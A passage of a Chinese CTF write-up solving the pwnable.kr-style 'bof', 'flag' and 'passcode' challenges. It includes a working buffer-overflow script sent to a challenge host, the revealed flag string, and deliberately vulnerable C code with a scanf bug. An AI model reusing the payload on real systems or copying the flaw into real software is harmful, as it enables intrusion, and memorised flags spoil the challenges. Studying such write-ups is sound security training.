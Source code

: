 ```
```

用objdump看bof的反汇编，找到overflowme数组起始地址距离ebp的长度为0x2c(44),加上ebp，eip8字节，共要填充52字节：

![](http://img1.tuicool.com/VVjM3aE.png!web)

python脚本跑出flag：

Python

```
from zio import *
host = "143.248.249.64"
port = 9000
io = zio((host,port),print_read=False,print_write=False)
payload = "A"*52 + "\xbe\xba\xfe\xca" + "\n"
io.write(payload+"\n")
io.write("cat flag\n")
buf = io.read_until("\n")
print buf
```

## 4.flag

ida打开发现程序被加壳了，用010editor打开发现是UPX的壳，用upx命令脱壳：

```
upx -d flag -o deflag
```

脱壳后用ida直接找到flag字符串 flag： UPX…? sounds like a delivery service ![](http://img1.tuicool.com/UZzIV3n.png!web)

## 5.passcode

漏洞代码如下：

C

```
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");

        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
```